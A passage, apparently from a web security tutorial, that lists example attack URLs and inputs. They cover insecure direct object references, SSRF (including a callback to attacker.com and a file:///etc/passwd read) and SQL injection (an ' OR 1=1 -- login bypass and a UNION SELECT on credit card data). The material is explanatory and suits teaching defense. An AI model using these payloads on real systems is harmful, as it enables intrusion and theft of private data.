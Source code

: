 Example 2: Viewing another user's private messages

```bash
https://socialmedia.com/messages?userId=67890
```

The attacker modifies the `userId` parameter to view another user's private messages without proper access controls.

Example 3: Downloading another user's files

```bash
https://filestorage.com/download?fileId=abcdef
```

An attacker changes the `fileId` parameter to download another user's files without authorization.

#### 4\. Server-Side Request Forgery (SSRF)

Example 1: Accessing internal network resources

```bash
https://example.com/proxy?url=http://192.168.0.5/admin
```

The attacker uses the vulnerable proxy functionality to access an internal admin panel that should not be exposed to the public.

Example 2: Bypassing IP-based access controls

```bash
https://example.com/api?callbackUrl=http://attacker.com/evil-script
```

The attacker tricks the server into making a request to a malicious URL, bypassing IP-based access controls.

Example 3: Triggering a remote code execution on the server

```perl
https://example.com/image?url=file:///etc/passwd
```

The attacker uses the server's image processing functionality to access sensitive files on the server, potentially leading to remote code execution.

#### 5\. SQL Injection

Example 1: Bypassing authentication

```vbnet
Username: ' OR 1=1 --
Password: (empty)
```

The attacker injects an SQL payload into the username field, causing the authentication query to return true and bypass the password check.

Example 2: Accessing sensitive data

```bash
https://example.com/user?id=1' UNION SELECT credit_card_number, expiration_date, cvv FROM credit_cards WHERE user_id = 1--
```
